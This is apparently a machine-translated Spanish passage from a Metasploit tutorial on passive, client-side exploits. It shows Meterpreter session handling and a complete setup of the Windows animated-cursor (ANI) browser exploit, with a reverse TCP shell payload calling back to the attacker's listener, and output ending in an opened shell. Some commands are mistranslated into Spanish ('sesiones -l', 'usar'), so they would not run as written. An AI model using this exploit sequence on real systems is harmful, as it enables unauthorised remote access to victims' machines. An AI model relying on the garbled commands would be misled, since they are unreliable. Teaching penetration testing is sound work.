	Microsoft Windows XP [Versión 5.1.2600]
	(C) Copyright 1985-2001 Microsoft Corp.
	
	C:\WINDOWS\system32>


## EXPLOITS PASIVOS
Los exploits pasivos esperan a los hosts entrantes y los explotan cuando se conectan.

Los exploits pasivos casi siempre se centran en clientes como navegadores web, clientes FTP, etc.
También se pueden usar junto con exploits de correo electrónico, esperando conexiones.
Los ataques pasivos informan de los shells a medida que ocurren pasando '-l' al comando de sesiones. Pasar '-i' interactuará con un shell.

	msf exploit ( ani_loadimage_chunksize )> sesiones -l
	
	Sesiones activas
	===============
	
	  Id Descripción Túnel
	  - ----------- ------
	  1 Meterpreter 192.168.1.5:52647 -> 192.168.1.100:4444
	
	msf exploit ( ani_loadimage_chunksize )> sesiones -i 1
	[*] Iniciando interacción con 1 ...
	
	meterpreter>


EJEMPLO
El siguiente resultado muestra la configuración para aprovechar la vulnerabilidad del cursor animado. El exploit no se activa hasta que una víctima navega a nuestro sitio web malicioso.


	msf> usar exploit/windows/browser/ani_loadimage_chunksize 
	msf exploit ( ani_loadimage_chunksize )> set URIPATH /
	URIPATH => /
	msf exploit ( ani_loadimage_chunksize )> set PAYLOAD windows/shell/reverse_tcp
	PAYLOAD => windows/shell/reverse_tcp
	msf exploit ( ani_loadimage_chunksize )> set LHOST 192.168.1.5
	LHOST => 192.168.1.5
	msf exploit ( ani_loadimage_chunksize )> set LPORT 4444
	LPORT => 4444
	msf exploit ( ani_loadimage_chunksize )> exploit
	[*] Exploit ejecutándose como trabajo en segundo plano.
	
	[*] Manejador inverso iniciado
	[*] Usando URL: http://0.0.0.0:8080/
	[*] IP local: http://192.168.1.5:8080/
	[*] Servidor iniciado.
	exploit msf ( ani_loadimage_chunksize )>
	[*] Intentando explotar ani_loadimage_chunksize
	[*] Enviando página HTML a 192.168.1.100:1077 ...
	[*] Intentando explotar ani_loadimage_chunksize
	[*] Enviando Desbordamiento de pila de tamaño de fragmento (HTTP) de ANI LoadAniIcon () de Windows a 192.168.1.100:1077 ...
	[*] Etapa de envío (240 bytes)
	[*] Se abrió la sesión 2 del shell de comandos (192.168.1.5:4444 -> 192.168.1.100:1078)
	